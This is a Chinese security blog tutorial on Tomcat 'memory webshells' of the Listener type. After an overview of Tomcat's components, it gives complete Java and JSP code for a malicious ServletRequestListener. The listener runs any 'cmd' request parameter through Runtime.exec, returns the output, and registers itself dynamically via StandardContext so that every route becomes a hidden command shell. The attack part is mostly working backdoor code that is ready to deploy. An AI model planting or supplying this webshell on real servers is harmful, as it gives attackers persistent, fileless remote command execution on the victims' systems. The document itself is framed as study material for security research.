









# Tomcat内存马之Listener

## 初识Tomcat内存马

关于内存马，第一次接触是 PHP 的不死马，其原理是在内存中执行死循环，并删除自身文件，起到维持权限的作用，而 Tomcat 的内存马原理则与其不同。

在前面的学习我们知道，在 Java 程序中，HTTP 的请求会按照`Listener --> Filter --> Servlet`的顺序经过这三大组件，Tomcat 内存马则在请求的过程中修改程序本身的组件或者注册新的恶意组件到 Tomcat 服务器中，插入恶意代码，完成内存马的注入。

Tomcat 内存马技术的实现依赖于`Servlet 3.0`版本之后的动态注册组件，而 Tomcat 7.x 版本才开始支持`Servlet 3.0`。

## Tomcat基础知识

在学习 Java 内存马之前，我们得了解一些关于 Tomcat 的基础知识。

Tomcat 本身是由 Apache 软件基金会属下 Jakarta 开发的 Servlet 容器，目的是实现对 Servlet 和 JSP 的支持。其广为人知的是充当 Java 程序的 Web服务器，这是因为在 Tomcat 中内嵌了 HTTP 服务器。

Tomcat 对于 HTTP 请求的处理可以简化成如下图所示：


Tomcat 通过`Connector`组件接收并解析 HTTP 请求报文，创建`ServletRequest`对象发送给`Container`容器进行处理。`Container`容器处理完之后将响应封装成`ServletResponse`对象返回到`Connector`组件，`Connector`将其转换成 HTTP 响应报文返回到客户端，完成一次请求响应动作。

下面简单了解一下其中的组件和服务。
### Server

`Server`指代整个 Tomcat 服务器，主要提供接口让其他程序能访问到`Service`里面，同时维护它所包含的所有`Service`生命周期（初始化到服务结束等）。Tomcat 只存在一个`Server`，而`Server`中至少存在一个`Service`组件。

### Service

`Service`包含`Connector`、`Container`和其他若干组件，对外提供服务。一个`Service`可以设置多个`Connector`组件，但只能有一个`Container`容器。Tomcat 中`Service`接口的标准实现类是`StandardService`，该类还实现了`Lifecycle`接口用于控制下面组件的生命周期。

### Connector

`Connector`组件是 Tomcat 中的核心组件之一，主要任务是接受客户端发送的 tcp 连接请求，创建 Request 和 Response 对象分别用于和请求端交换数据，接着生成线程用于处理这两个对象，最后转换成`ServletRequest`对象传递给`Container`容器。总结其功能如下：

1. 和客户端建立通信。
2. 解析和处理应用层协议，将其封装成 Request 和 Response 对象，将 Request 对象转换成`ServletRequest`对象，传递给`Container`容器。
3. 接收`Container`传递回来的`ServletResponse`对象，处理成 Response 对象，转换成 HTTP 响应报文返回到客户端。

总结图如下所示：


从图中可以看到，`Connector`组件的工作由这三个子组件：`EndPoint`、`Processor`和`Adapter`共同完成，分别负责的功能如下：

- `EndPoint`：负责网络通信，传递字节流到`Processor`。
- `Processor`：负责处理字节流生成 Tomcat Request 对象，传递到`Adapter`。
- `Adapter`：负责处理 Tomcat Request 对象，将其转换成`ServletRequest`。

### Container

`Container`，别名为`Catalina`，用于处理`Connector`组件传递过来的`ServletRequest`请求。`Container`容器采用责任链的设计模式，含有四个子容器：`Engine`、`HOST`、`Context`和`Wrapper`。这四个子容器不是平行关系，而是父子关系，包含关系如下：

```
Engine <-- Host <-- Context <-- Wrapper
```

- `Engine`：最顶层容器组件，包含多个`HOST`，实现类为`org.apache.catalina.core.StandardEngine`。
- `HOST`：代表一个虚拟主机，每个虚拟主机和对应域名进行匹配，包含多个`Context`，实现类为`org.apache.catalina.core.StandardHost`。
- `Context`：上下文容器，一个`Context`代表一个 WEB 应用，包含多个`Wrapper`，实现类为`org.apache.catalina.core.StandardContext`。
- `Wrapper`：一个`Wrapper`代表一个`Servlet`，是对`Servlet`的抽象包装。`Wrapper`负责管理`Servlrt`，包括`Servlet`的装载、初始化、执行和资源回收等，实习类为`org.apache.catalina.core.StandardWrapper`。

示例图如下所示：

## Listener型内存马的实现

在前面的 JavaWeb 基础学习时，我们了解了一些`Listener`监听器。在这其中，最适合作为内存马的监听器为`ServletRequestListener`，它用于监听 ServletRequest 对象的创建和销毁过程，因此当我们发起任意请求时，都会触发`ServletRequestListener#requestInitialized()`方法。

编写一个`ServletRequestListener`接口的实现类进行测试：
```java
package com.servlet.study;

import javax.servlet.ServletRequestEvent;
import javax.servlet.ServletRequestListener;
import javax.servlet.annotation.WebListener;
import javax.servlet.http.HttpServletRequest;
/**
 * Created by dotast on 2022/10/25 10:35
 */
@WebListener
public class ListenerTest implements ServletRequestListener {

    public void requestInitialized(ServletRequestEvent servletRequestEvent) {
        HttpServletRequest request = (HttpServletRequest) servletRequestEvent.getServletRequest();
        try{
            String cmd = request.getParameter("cmd");
            if(cmd != null){
                Runtime.getRuntime().exec(cmd);
            }
        }catch (Exception e){
            e.printStackTrace();
        }
    }

    public void requestDestroyed(ServletRequestEvent servletRequestEvent) {

    }
}
```

访问任意路由都可以执行命令


不过这仅仅实现了未回显的命令执行，既然实现了命令执行，我们就得要做到回显。在 java 中，我们可以通过`request`类的`getResponse()`方法获取`response`对象


那么如何获取到`request`类呢？在`requestInitialized()`方法中预设给我们传入了`ServletRequestEvent `对象，我们跟进看看


这里存在一个`ServletRequest`类型的`request`字段，并且通过`getServletRequest()`方法可以拿到，而`Request`类也是实现了`ServletRequest`接口。

因此我们可以通过反射拿到`ServletRequest`类中的`request`实例，然后经过强转类型获得`Request`对象类型
```java
package com.servlet.study;


import org.apache.catalina.connector.Request;
import org.apache.catalina.connector.Response;
import javax.servlet.ServletRequestEvent;
import javax.servlet.ServletRequestListener;
import javax.servlet.annotation.WebListener;
import javax.servlet.http.HttpServletRequest;
import java.io.ByteArrayOutputStream;
import java.io.InputStream;
import java.lang.reflect.Field;

/**
 * Created by dotast on 2022/10/25 10:35
 */
@WebListener
public class ListenerTest implements ServletRequestListener {

    public void requestInitialized(ServletRequestEvent servletRequestEvent) {
        HttpServletRequest req = (HttpServletRequest) servletRequestEvent.getServletRequest();
        try{
            String cmd = req.getParameter("cmd");
            if(cmd != null){
                Field field = req.getClass().getDeclaredField("request");
                field.setAccessible(true);
                Request request = (Request) field.get(req);
                Response response = request.getResponse();
                InputStream inputStream = Runtime.getRuntime().exec(cmd).getInputStream();
                ByteArrayOutputStream bao = new ByteArrayOutputStream();
                byte[] bytes = new byte[1024];
                int a = -1;
                while((a = inputStream.read(bytes))!=-1){
                    bao.write(bytes,0,a);
                }
                response.getWriter().write(new String(bao.toByteArray()));
            }
        }catch (Exception e){
            e.printStackTrace();
        }
    }

    public void requestDestroyed(ServletRequestEvent servletRequestEvent) {

    }
}
```

命令执行结果成功回显

既然我们可以通过恶意的`ServletRequestListener`实现类触发命令执行，那么接下来就是考虑如何动态注册进服务器中的问题。

在`Runtime.getRuntime().exec()`打上断点，然后带上 cmd 参数执行一次弹出计算器看看调用栈


可以看到我们构造的`ListenerTest()`方法的前一个是`StandardContext#fireRequestInitEvent()`方法，跟进该方法


第一行调用了`getApplicationEventListeners()`方法获取对象数组，跟进该方法


可以看到，`applicationEventListenersList`字段已经存储了我们的`ListenerTest`类


也就是之前已经将`ListenerTest`类注册进了 Tomcat 服务器，既然是添加我们的恶意类到`applicationEventListenersList`列表中，那么一定会有一个添加的方法，尝试在该类中全局搜索`pplicationEventListenersList`关键字，最后定位到了`addApplicationEventListener()`方法


因此我们可以通过`addApplicationEventListener()`方法去将我们的恶意类添加到`listener`中进行注册，接下来继续跟着方法往下走


对获取到的`instances`数组遍历并进行实例化，最终调用`requestInitialized()`方法。

接下来就是如何去获取`StandardContext`类，网上可以看到师傅们都挖出了很多种办法，关于`StandardContext`类的调用寻找日后有兴趣再慢慢聊吧。这里取其中一种：`StandardHostValve#invoke()`方法中可以通过`request`对象的`getContext()`方法获取到`StandardContext`类，而 JSP 本身就内置了`request`对象


接下来就是编写 Listener 型内存马
```java
<%@ page import="org.apache.catalina.connector.Request" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.connector.Response" %>
<%@ page import="java.io.ByteArrayOutputStream" %>
<%@ page import="org.apache.catalina.core.StandardContext" %><%--
  Created by dotast on 2022/10/27 23:16
--%>
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%!
    class ListenerTest implements ServletRequestListener {

        public void requestInitialized(ServletRequestEvent servletRequestEvent) {
            HttpServletRequest req = (HttpServletRequest) servletRequestEvent.getServletRequest();

            try{
                String cmd = req.getParameter("cmd");
                if(cmd != null){
                    Field field = req.getClass().getDeclaredField("request");
                    field.setAccessible(true);
                    Request request = (Request) field.get(req);
                    Response response = request.getResponse();
                    InputStream inputStream = Runtime.getRuntime().exec(cmd).getInputStream();
                    ByteArrayOutputStream bao = new ByteArrayOutputStream();
                    byte[] bytes = new byte[1024];
                    int a = -1;
                    while((a = inputStream.read(bytes))!=-1){
                        bao.write(bytes,0,a);
                    }
                    response.getWriter().write(new String(bao.toByteArray()));
                }
            }catch (Exception e){
                e.printStackTrace();
            }
        }

        public void requestDestroyed(ServletRequestEvent servletRequestEvent) {

        }
    }
%>

<%
    Field field = request.getClass().getDeclaredField("request");
    field.setAccessible(true);
    Request req = (Request) field.get(request);
    StandardContext standardContext = (StandardContext) req.getContext();
    ListenerTest listenerTest = new ListenerTest();
    standardContext.addApplicationEventListener(listenerTest);
%>
```

访问上传的内存马文件路径使其执行代码，注册内存马


接着访问其他路由都可以成功执行命令

